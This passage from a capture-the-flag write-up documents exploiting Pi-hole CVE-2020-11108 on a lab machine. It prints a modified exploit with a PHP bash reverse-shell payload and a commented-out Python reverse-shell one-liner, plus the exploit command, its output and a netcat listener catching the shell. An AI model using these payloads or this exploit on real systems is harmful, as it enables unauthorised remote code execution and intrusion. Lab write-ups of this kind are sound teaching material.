 ### Pi-hole exploit - CVE-2020-11108
After logging in and a little bit of searching, it turns out there is a [Pi-hole exploit available for versions below 4.4](https://www.exploit-db.com/exploits/48443). Checking the current version:<br />
![pihole version](images/unbalanced/20.png# medium)
<br />This version is vulnerable!

#### Getting the PHPSESSID
We have to get first the PHPSESSID from the cookies assigned to use by the server. It will be needed by the POC<br />
![pihole phpsessid](images/unbalanced/21.png)

#### Changed payload from python3 to bash
After downloading the exploit and execute it, no response from the server. So I had changed the payload from python3 to bash
<br />
```python
...
# Payload taken from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
# I opted to use the Python3 reverse shell one liner over the full PHP reverse shell.
#shell_payload = """<?php
#  shell_exec("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"%s\\\",%s));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);'")
#?>
#""" %(LOCAL_IP, LOCAL_PORT)

shell_payload = """<?php
  $sock=fsockopen("{}",{});
  exec("bash -i <&3 >&3 2>&3");
?>
""".format(LOCAL_IP, LOCAL_PORT)
...
```
<br />Save it and then reexecute the code. Just make sure that there is a listener on our side. I used netcat for it. The execution of exploit with new payload:
<br />
```bash
sudo python3 48443_orig.py 7bfnctcni8uou4c0sb9davv863 'http://localhost:8080' 10.10.14.33 40000
[+] Put Root Stager Success
[+] Received First Callback
[+] Received Second Callback
[+] Uploading Root Payload
[+] Put Shell Stager Success
[+] Received Third Callback
[+] Received Fourth Callback
[+] Uploading Shell Payload
[+] Triggering Exploit
```
<br />And this is what will be expected on the listener side
<br />
```bash
$ nc -lvp 40000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::40000
Ncat: Listening on 0.0.0.0:40000
Ncat: Connection from 10.10.10.200.
Ncat: Connection from 10.10.10.200:39560.
bash: cannot set terminal process group (527): Inappropriate ioctl for device
bash: no job control in this shell
```

[ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>